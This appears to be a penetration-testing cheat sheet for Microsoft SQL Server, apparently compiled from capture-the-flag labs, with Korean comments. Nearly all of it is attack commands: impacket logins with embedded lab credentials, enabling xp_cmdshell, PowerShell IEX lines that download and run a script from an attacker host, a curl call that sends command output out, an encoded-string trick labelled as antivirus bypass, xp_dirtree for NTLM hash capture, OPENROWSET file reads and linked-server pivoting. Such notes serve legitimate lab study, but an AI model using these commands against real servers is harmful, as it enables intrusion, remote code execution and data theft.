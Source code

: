 
### mssql connect
```bash
# windows 계정으로 로그인할 경우
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.145.148 -windows-auth
# DB 계정으로 로그인할 경우
impacket-mssqlclient "streaio.htb/db_admin:B1@hx31234567890"@240.0.0.1

# 로컬에서 접근할 경우
.\sqlcmd.exe -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```

### db enumeration

```sql
enum_db
```

### show tables

```sql
SELECT table_name FROM <db_name>.INFORMATION_SCHEMA.TABLES 
```

### db 전환

```sql
USE <database_name>;
```

### select tables

```sql
SELECT * from <table_name>
```

### db 내 user정의 table(u) 조회

```sql
SELECT name,id from <db_name>..sysobjects where xtype='u';
# 한번에 id:name 쌍을 출력해야할 경우
SELECT concat(id,":",name) from <db_name>..sysobjects where xtype='u';
# 여러줄을 | 구분자로 이어붙일 경우
SELECT string_agg(concat(name,':',id),'|') from <db_name>..sysobjects where xtype='u'
```

### db 내 column 이름 조회

```sql
# SELECT column name thru table id
SELECT string_agg(name,'|') from <db_name>..syscolumns where id=<id>
```

### Enable xp_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

### xp_cmdshell

```powershell
# RCE thru ps1
exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/<FILE>.ps1')" ;

# RCE thru curl
EXEC xp_cmdshell 'powershell -c "$x = whoami; curl <http://my-kali?output=$x>"';
```

### File Read, OOB (NTLM Hash)

```sql
EXEC xp_dirtree 'C:\\inetpub\\wwwroot\\',1,1;
```

### AV Bypass
```sql
DECLARE @sql NVARCHAR(100); SET @sql = NCHAR(120)+NCHAR(112)+NCHAR(95)+NCHAR(99)+NCHAR(109)+NCHAR(100)+NCHAR(115)+NCHAR(104)+NCHAR(101)+NCHAR(108)+NCHAR(108); EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure @sql, 1; RECONFIGURE; EXEC @sql 'ipconfig';
```

### SID
```sql
SELECT name, sid, type_desc FROM sys.server_principals;
SELECT SUSER_SID('SIGNED\mssqlsvc');
```

### File Read
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ad Hoc Distributed Queries', 1; RECONFIGURE;
SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt',SINGLE_CLOB) AS x;
```

### SYSADMIN
```sql
SELECT r.name AS role, m.name AS member FROM sys.server_principals r JOIN sys.server_role_members rm ON r.principal_id = rm.role_principal_id JOIN sys.server_principals m ON rm.member_principal_id = m.principal_id WHERE r.name = 'sysadmin';
```

### Enum links
```mssql
# only for impacket-mssqlclient
enum_links

# For mssql
-- 링크된 서버 목록 조회 
EXEC sp_linkedservers; 
-- 시스템 뷰로 조회 
SELECT * FROM sys.servers WHERE is_linked = 1; 
-- 더 상세한 정보 
SELECT srv.name AS LinkedServerName, srv.product, srv.provider, srv.data_source, srv.location FROM sys.servers srv WHERE srv.server_id != 0; 
-- 0은 로컬 서버 
-- 링크 서버의 로그인 매핑 확인 
EXEC sp_helplinkedsrvlogin;

```

### Use links
```mssql
# only for imapcket-mssqlclient
use_link [link_name]


# For mssql
-- OPENQUERY 사용
SELECT * FROM OPENQUERY([LinkedServerName], 'SELECT @@version');

-- AT 절 사용 (EXEC AT)
EXEC ('SELECT @@servername') AT [LinkedServerName];

-- 4부분 이름 사용
SELECT * FROM [LinkedServerName].[DatabaseName].[Schema].[Table];

-- 예시
SELECT * FROM [BACKUP-SQL].[master].[sys].[databases];

```


